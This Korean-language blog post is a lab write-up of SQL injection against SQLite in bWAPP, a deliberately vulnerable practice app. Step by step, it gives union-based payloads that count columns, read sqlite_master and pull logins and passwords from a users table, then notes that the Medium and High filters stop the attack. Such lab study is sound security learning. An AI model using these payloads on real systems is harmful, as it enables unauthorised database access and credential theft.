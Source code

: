 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (SQLite)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image.png)

- '(싱글 쿼터) 입력시 Error 발생
- DBMS 의 종류가 SQLite 이다.
- union Based 로 방향을 잡았으며, 이전의 DBMS 들과의 문법이 상이하다.

> information_schema 와 같은 메타데이터 사전을 sqlite_master 라는 파일 하나로 전부 관리한다.

1. sqlite_version()	버전(@@version)
2. tbl_name		테이블 이름
3. sql 			컬럼 정보(column_name)

```sql
'order by 6--
```

- 동일하게 컬럼 개수를 파악

```sql
'and 1=2 union select 1,2,3,4,5,6--
```

- 페이지상에 출력되는 컬럼들을 파악했다.

![그림 1-2](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image2.png)

- 2,3,5,4 컬럼이 노출되고 있다.

```sql
'union+select+1,2,name,4,5,6 from sqlite_master--+-
```

![그림 1-3](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image3.png)
- 테이블 명들을 확인할 수 있다.

```sql
'and 1=2 union select 1,sql,3,4,5,6 from sqlite_master where tbl_name='users'--
```

![그림 1-4](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/imag4.png)

- 컬럼명을 추출할 수 있다.

```sql
' and 1=2 union select 1,id,login,secret,password,6 from users--
```

![그림 1-5](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image4.png)

- 성공적으로 데이터를 추출할 수 있다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

